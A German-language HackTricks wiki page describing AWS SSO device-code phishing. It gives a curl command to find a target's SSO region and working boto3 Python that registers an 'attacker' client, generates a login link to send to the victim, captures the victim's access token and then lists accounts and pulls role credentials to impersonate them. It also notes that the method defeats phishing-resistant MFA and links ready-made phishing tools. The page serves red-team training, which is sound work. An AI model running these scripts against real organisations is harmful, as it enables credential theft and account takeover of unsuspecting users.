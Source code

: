 # AWS - Identitätszentrum & SSO Unauthentifizierte Aufzählung

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github Repositories einreichen.

</details>

## AWS Gerätecode-Phishing

Ursprünglich vorgeschlagen in [**diesem Blog-Beitrag**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), ist es möglich, einem Benutzer über AWS SSO einen **Link** zu senden, der es dem **Benutzer ermöglicht, wenn er akzeptiert**, dass der Angreifer einen **Token erhält, um den Benutzer zu imitieren** und auf alle Rollen zuzugreifen, auf die der Benutzer im **Identitätszentrum** zugreifen kann.

Um diesen Angriff durchzuführen, sind folgende Voraussetzungen erforderlich:

* Das Opfer muss das **Identitätszentrum** verwenden.
* Der Angreifer muss das **Subdomäne** kennen, die vom Opfer verwendet wird `<victimsub>.awsapps.com/start`

Nur mit diesen Informationen wird der **Angreifer in der Lage sein, dem Benutzer einen Link zu senden**, der, wenn **akzeptiert**, dem **Angreifer Zugriff auf das AWS-Benutzerkonto** gewährt.

### Angriff

1. **Ermitteln der Subdomäne**

Der erste Schritt des Angreifers besteht darin, die Subdomäne des Opferunternehmens in ihrem Identitätszentrum herauszufinden. Dies kann über **OSINT** oder **Raten + BF** erfolgen, da die meisten Unternehmen hier ihren Namen oder eine Variation ihres Namens verwenden.

Mit diesen Informationen ist es möglich, die Region zu erhalten, in der das Identitätszentrum konfiguriert wurde:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Generieren Sie den Link für das Opfer & Senden Sie ihn**

Führen Sie den folgenden Code aus, um einen AWS SSO-Anmelde-Link zu generieren, damit das Opfer sich authentifizieren kann.\
Für die Demonstration führen Sie diesen Code in einer Python-Konsole aus und beenden Sie sie nicht, da Sie später einige Objekte benötigen, um das Token zu erhalten:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **Warten Sie, bis das Opfer es akzeptiert**

Wenn das Opfer bereits bei AWS angemeldet war, muss es nur die Berechtigungen akzeptieren. Wenn nicht, muss es sich anmelden und dann die Berechtigungen akzeptieren.\
So sieht die Aufforderung heutzutage aus:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Holen Sie sich das SSO-Zugriffstoken**

Wenn das Opfer die Aufforderung akzeptiert hat, führen Sie diesen Code aus, um ein SSO-Token zu generieren und sich als Benutzer auszugeben:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Das SSO-Zugriffstoken ist **8 Stunden lang gültig**.

5. **Benutzer impersonieren**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing des unphishbaren MFA

Es macht Spaß zu wissen, dass der vorherige Angriff **auch funktioniert, wenn ein "unphishbarer MFA" (webAuth) verwendet wird**. Dies liegt daran, dass der vorherige **Workflow die verwendete OAuth-Domäne nie verlässt**. Anders als bei anderen Phishing-Angriffen, bei denen der Benutzer die Login-Domäne ersetzen muss, ist im Fall des Gerätecode-Workflows ein **Code von einem Gerät bekannt** und der Benutzer kann sich sogar auf einem anderen Gerät anmelden. Wenn die Aufforderung akzeptiert wird, kann das Gerät nur durch **Kenntnis des ursprünglichen Codes** die Anmeldeinformationen für den Benutzer **abrufen**.

Für weitere Informationen dazu [**überprüfen Sie diesen Beitrag**](https://mjg59.dreamwidth.org/62175.html).

### Automatische Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Referenzen

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

